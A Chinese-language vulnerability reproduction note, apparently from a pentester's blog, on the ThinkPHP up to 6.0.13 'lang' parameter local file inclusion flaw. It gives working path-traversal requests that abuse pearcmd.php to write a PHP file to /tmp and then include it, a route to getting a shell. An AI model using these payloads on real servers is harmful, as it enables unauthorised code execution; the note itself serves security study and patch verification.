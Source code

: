 ```yaml
---
title: lang-rce
date: 2023-09-03T15:29:52+08:00
updated: 2023-08-29T04:06:55+08:00
categories: 
- 渗透测试
- 漏洞复现
- ThinkPHP
---
```


## 漏洞描述

6.0.13版本及以前，存在一处本地文件包含漏洞。当多语言特性被开启时，攻击者可以使用`lang`参数来包含任意PHP文件。

虽然只能包含本地PHP文件，但在开启了`register_argc_argv`且安装了pcel/pear的环境下，可以包含`/usr/local/lib/php/pearcmd.php`并写入任意文件。

## 漏洞利用

测试包含public/index.php来确认文件包含漏洞的存在’

```
?lang=../../../../../public/index
```

如果存在，服务器会爆500

![lang-rce-500](E:\笔记软件\笔记\渗透测试\漏洞复现\ThinkPHP\lang-rce-500.jpg)

**利用pearcmd写入shell**

```
?lang=../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?=phpinfo()?>+/tmp/shell.php
```

![lang-rce-1](E:\笔记软件\笔记\渗透测试\漏洞复现\ThinkPHP\lang-rce-1.png)

**文件包含，利用pearcmd在/tmp文件夹下创建文件再进行包含**

```
?lang=../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?=phpinfo()?>+/tmp/shell.php
```

![lang-rce-2](E:\笔记软件\笔记\渗透测试\漏洞复现\ThinkPHP\lang-rce-2.png)

再进行包含

```
?lang=../../../../../../../tmp/shell
```

![lang-rce-3](E:\笔记软件\笔记\渗透测试\漏洞复现\ThinkPHP\lang-rce-3.png)

### 参考链接：

https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp